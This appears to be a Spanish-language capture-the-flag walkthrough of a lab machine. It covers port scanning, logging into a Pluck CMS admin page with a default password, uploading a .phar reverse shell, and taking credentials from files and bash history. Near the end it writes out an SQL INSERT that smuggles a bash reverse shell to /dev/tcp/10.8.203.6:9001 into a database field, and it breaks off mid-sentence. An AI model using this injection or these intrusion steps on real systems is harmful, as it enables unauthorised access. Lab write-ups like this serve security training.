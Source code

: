 ### nmap
```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 76:26:67:a6:b0:08:0e:ed:34:58:5b:4e:77:45:92:57 (RSA)
|   256 52:3a:ad:26:7f:6e:3f:23:f9:e4:ef:e8:5a:c8:42:5c (ECDSA)
|_  256 71:df:6e:81:f0:80:79:71:a8:da:2e:1e:56:c4:de:bb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.87 seconds
```
### ports: 22/ssh - 80/http

### empezamos enumerando el puerto 80
![[Pasted image 20231121122855.png]]
en este caso parece que no tenemos mucho
### Fuzzing con gobuster
![[Pasted image 20231121123528.png]]
### tenemos un directorio llamado app. en el que encontramos una carpeta llamada pluck
![[Pasted image 20231121123646.png]]
### nos lleva a lo que parece ser la pagina principal
![[Pasted image 20231121123850.png]]
### aquí podemos enumerar el framework en el que esta echo la pagina y también un usuario admin
### si entramos en admin nos dirige a una pagina donde podremos logearnos pero aun no tenemos credenciales. lo que si podemos conseguir es lo que parece ser la version del framework y este lo podemos usar para buscar exploit que nos ayuden a entrar en la pagina
![[Pasted image 20231121124556.png]]
### despues de una busqueda en internet hemos encontrado un script que no funciona pero leyendo el codigo hemos descubierto que la clave que utiliza para ingresar a la pagina es password
### enumerando todos las rutas de la pagina parece que tenemos un apartado que nos permite subir archivos
![[Pasted image 20231121134946.png]]
### intentaremos subir un archivo que contenga una revershell 
### despues de hacer un monton de pruebas parece que la pagina agrega .txt a cada archivo que subimos asi que intentamos baypassar esto probando muchas opciones y phar nos ha funcionado
![[Pasted image 20231121145707.png]]
### nos ponemos a la escucha y recibimos nuestra shell
![[Pasted image 20231121145905.png]]
### Despues de hacer tratamiento de tty vamos al directorio /home
![[Pasted image 20231121151554.png]]
### dentro del directorio /home tenemos tres usuarios 
```python
	Username: death
	
	username: lucien
	
	username morpheus
```

### en este caso primero vamos a intentar enumerar al usuario morpheus, donde podemos ver la flag pero no tenemos permisos. y tambien tenemos un archivo restore.py muy interesante

![[Pasted image 20231121152552.png]]
### si hacemos un cat al archivo restore.py no tenemos mucha informacion asi que iremos por otro usuario

![[Pasted image 20231121153245.png]]

### despues de una larga busqueda e intentando muchisimas cosas entre ellas pspy64 el cual no se puede ejecutar debido a un archivo en el sistema que lo impide hemos encontrado esto:
![[Pasted image 20231121162834.png]]
### en el directorio opt existe un archivo llamado test.py y haciendo un cat podemos ver que al parecer contiene la contraseña del usuario lucien 

![[Pasted image 20231121163324.png]]
### efectivamente el archivo test.py contenia las credenciales de lucien
### hacemos cat al archivo getDreams.py
![[Pasted image 20231121163711.png]]
### obtenemos información sobre una base de datos mysql. este archivo parese mostrarnos lo que esta alojado en la base de datos. esto es muy importante ya que podremos usarlo mas adelante
### vamos a intentar buscar el bash_history del usuario lucien para intentar recopilar mas informacion
![[Pasted image 20231121172038.png]]
### genial. optenemos informacion valiosa. al parecer lucien se ha conectado en el pasado a la base de datos usando las credenciales que quedaron almacenadas en el bash_history. vamos a aprovechar esto para conectarnos a la base de datos y ver que tipo de informacion podemos sacar...
![[Pasted image 20231121181702.png]]
### vamos a mirar en toda la base de datos
![[Pasted image 20231121212309.png]]
### nos aprovecharemos del archivo que mencionamos anteriormente el cual hace un llamado de todo lo que esta en la base de datos e intentaremos inyectar una shell a la base de datos para que cuando ejecutemos el archivo con suerte esto nos envie una shell
### vamos a inyectar codigo a la base de datos

```python
	INSERT into dreams (dreamer,dream) VALUE ("Gamuke","; bash -c 'bash -i >& /dev/tcp/10.8.203.6/9001 0>&1'");
```

![[Pasted image 20231121214156.png]]

### tenemos nuestro codigo malicioso inyectado en la base de datos asi que vamos a ejecutar el